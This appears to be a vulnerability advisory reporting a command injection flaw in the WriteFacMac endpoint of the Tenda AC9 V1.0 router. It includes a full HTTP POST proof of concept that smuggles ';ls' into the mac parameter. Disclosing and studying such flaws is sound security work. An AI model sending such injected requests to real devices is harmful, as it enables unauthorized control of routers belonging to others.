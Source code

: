 # Tenda AC9 V1.0 Command Injection Vulnerability in WriteFacMac

## Overview
Tenda AC9 V1.0 Router is a consumer-grade wireless router supporting advanced wireless features, firewall, and device management capabilities. A command injection vulnerability exists in the `formWriteFacMac` function, which handles requests to the `/goform/WriteFacMac` endpoint. Attackers can inject arbitrary system commands via the `mac` parameter, leading to unauthorized device control or complete compromise.
![PoC 2 Result: Root Directory Listing](./imgs/0.png)
## Details
- **Vendor**: Tenda
- **Website**: [https://www.tenda.com.cn/]
- **Product**: Tenda AC9 V1.0 Router
- **Firmware**: V15.03.05.19(6318)
- **Firmware Download**: [https://www.tenda.com.cn/download/detail-2682.html]
- **Endpoint**: `/goform/WriteFacMac`
- **Vulnerability**: Command Injection
- **CVE ID**: Pending
- **Impact**: Execute arbitrary commands, access sensitive files, or gain full control.
- **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description
The `formWriteFacMac` function processes POST requests to `/goform/WriteFacMac`. It extracts the user-controlled `mac` parameter via `sub_2B9D4` (a parameter parsing function) and passes it directly to `doSystemCmd`. In `doSystemCmd`, the parameter is interpolated into a system command (e.g., `cfm mac %s`) without any input sanitization. The command is executed directly on the system. By injecting special characters (e.g., `;`), attackers can escape the command context and execute arbitrary system commands on the router.
![PoC 2 Result: Root Directory Listing](./imgs/1.png)
![PoC 2 Result: Root Directory Listing](./imgs/2.png)
## Proof of Concept (PoC)

### PoC 1: Execute `ls` Command
```
POST /goform/WriteFacMac HTTP/1.1
Host: 192.168.xxx.xxx
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: password=rfl1qw
If-Modified-Since: Sun Aug 10 12:46:43 2025
Connection: keep-alive
Content-Length: 24
mac=00:01:02:11:22:33;ls
```
![PoC 2 Result: Root Directory Listing](./imgs/3.png)
